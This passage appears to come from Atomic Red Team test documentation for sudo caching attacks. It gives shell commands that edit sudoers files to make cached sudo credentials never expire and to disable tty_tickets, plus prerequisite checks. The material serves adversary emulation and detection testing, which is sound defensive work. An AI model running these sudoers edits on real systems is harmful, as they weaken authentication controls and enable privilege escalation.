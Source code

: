 **Supported Platforms:** Linux


**auto_generated_guid:** a83ad6e8-6f24-4d7f-8f44-75f8ab742991






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' /usr/local/etc/sudoers
sudo visudo -c -f /usr/local/etc/sudoers
```




#### Dependencies:  Run with `sh`!
##### Description: Check if sudo is installed.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v sudo)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y sudo)
```




<br/>
<br/>

## Atomic Test #5 - Disable tty_tickets for sudo caching
Sets sudo caching tty_tickets value to disabled. This is dangerous to modify without using 'visudo', do not do this on a production system.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 91a60b03-fb75-4d24-a42e-2eb8956e8de1






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sh -c "echo Defaults "'!'"tty_tickets >> /etc/sudoers"
sudo visudo -c -f /etc/sudoers
```


